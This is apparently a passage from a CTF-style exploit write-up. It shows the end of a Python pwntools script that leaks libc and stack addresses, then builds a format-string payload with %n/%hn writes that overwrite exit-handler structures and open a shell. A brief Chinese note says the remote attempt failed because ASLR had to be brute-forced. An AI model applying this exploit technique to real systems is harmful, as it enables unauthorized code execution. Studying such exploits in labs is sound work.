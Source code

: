 ````python
    stack=int(ru("m").decode(),16)
    info_addr("stack",stack)
    info_addr("libc_base",libc_base)
    with open("./random.stack",'a') as f:
        f.write(hex(stack)+"\n")
    #gadget 0x3f3d6 0x3f42a 0xd5bf7
    #gadget 0x45216 0x4526a 0xef6c4 0xf0567
    gadget=libc_base+0xf0567
        #for twice call exit
    # initial=libc_base+0x39cc48
    # rtld_local=libc_base+0x5c4048
    # magic=libc_base+0x5c547c
    initial=libc_base+0x3c4c48
    rtld_local=libc_base+0x5ec048
    magic=libc_base+0x5ed47c
    info_addr("gadget",gadget)

    #3.get shell attack exit again
    chrs_now=28
    offset_base=15
    payload=b"a"+b"%"+str(offset_base).encode()+b"$n"
    payload+=b"aaa"+b"%"+str(offset_base+1).encode()+b"$n"
    payload+=b"%24c"+b"%"+str(offset_base+2).encode()+b"$hhn"
    for i in range(3):
        nums=((gadget>>(i*16))&0xffff)
        if nums > chrs_now:
            payload+=b"%"+str(nums-chrs_now).encode()+b"c"+\
                     b"%"+str(offset_base+i+3).encode()+b"$hn"
        elif nums < chrs_now:
            payload+=b"%"+str(nums+0x10000-chrs_now).encode()+b"c"+\
                     b"%"+str(offset_base+i+3).encode()+b"$hn"
        else:
            payload+=b"%"+str(offset_base+i+3).encode()+b"$hn"
        chrs_now=nums
    payload+=b"p" #padding
    payload+=p64(initial)+p64(rtld_local)+p64(magic)
    for i in range(3):
        payload+=p64(0x601000+i*2)
    print(len(payload))
    ru("Input :")
    sl(payload)

    itr()

exp()

````

> 在修改stdout时，会爆破一次，第二次劫持时，栈地址也再次爆破，因此在开启ALSR后，成功的概率为1/256，由于远程的网络太慢，并且测试发现由于ld的不同，栈地址上的数据构造不同，第二次printf的偏移不同，所以远程没有成功。
